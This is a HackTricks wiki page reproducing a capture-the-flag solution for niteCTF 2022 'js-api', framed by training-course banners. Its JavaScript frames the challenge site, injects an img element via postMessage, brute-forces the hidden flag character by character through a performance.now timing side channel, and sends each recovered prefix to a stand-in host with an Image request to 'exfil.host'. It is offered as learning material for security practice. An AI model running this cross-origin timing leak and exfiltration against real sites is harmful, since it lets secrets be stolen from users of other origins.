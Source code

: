 # performance.now example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Example taken from [https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)**

```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms));

async function check(flag) {
    let w = frame.contentWindow;
    w.postMessage({'op': 'preview', 'payload': '<img name="enable_experimental_features">'}, '*');
    await sleep(1);
    w.postMessage({'op': 'search', 'payload': flag}, '*');
    let t1 = performance.now();
    await sleep(1);
    return (performance.now() - t1) > 200;
}

async function main() {
    let alpha = 'abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}';
    window.frame = document.createElement('iframe');
    frame.width = '100%';
    frame.height = '700px';
    frame.src = 'https://challenge.jsapi.tech/';
    document.body.appendChild(frame);
    await sleep(1000);

    let flag = 'nite{';
    while(1) {
        for(let c of alpha) {
            let result = await Promise.race([
                check(flag + c),
                new Promise((res) => setTimeout(() => { res(true); }, 300))
            ]);
            console.log(flag + c, result);
            if(result) {
                flag += c;
                break;
            }
        }
        new Image().src = '//exfil.host/log?' + encodeURIComponent(flag);
    }
}

document.addEventListener('DOMContentLoaded', main);
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
